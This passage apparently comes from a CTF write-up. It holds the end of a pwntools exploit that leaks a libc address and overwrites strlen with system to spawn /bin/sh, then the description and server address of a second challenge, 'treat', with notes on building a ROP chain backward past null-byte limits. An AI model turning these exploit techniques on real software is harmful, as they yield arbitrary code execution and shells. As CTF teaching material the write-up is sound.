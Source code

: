```py
    print('puts %x' % uu64(leak))
    libc.address = uu64(leak) - libc.sym['puts']
    print('libc %x' % libc.address)

    payload = p64(libc.sym['puts'])
    payload+= p64(libc.sym['system'])
    update('\x00', 0, payload) # override strlen()
    
    add('/bin/sh\x00', 123, 0)

if __name__ == '__main__':
    if len(sys.argv) > 1:
        r = remote(HOST, PORT)
        libc = ELF('./libc64_2.29.so', checksec=0)
    else:
        r = process(BINARY, aslr=0)
        libc = ELF('/opt/glibc/x64/2.29/lib/libc.so.6', checksec=0)

    exploit()
    r.interactive()
```

## treat
```
Description: We sell all kinds of treat here, would you care to try our flagship coffee? p.s. It is not only delicious, but also environment friendly.
server: nc 130.211.214.112 18010
file: treat
```

![](/img/inferno/treat1.png)

Buffer overflow with a twist, `\x00` or `\n` as the end of input and the buffer is padded with zeroes to next multiply of 8. `\x00` as end of input is limiting us to place input as pointer once at a time since the pointer is 64bit wide and it'll obviously contains null byte since the pointer isn't really taking all the 64bit space.
The trick is you could forge ROP backward instead of the usual `p64(poprdi)+p64(binsh)+p64(system)` and placing a pointer once at a time every user input.
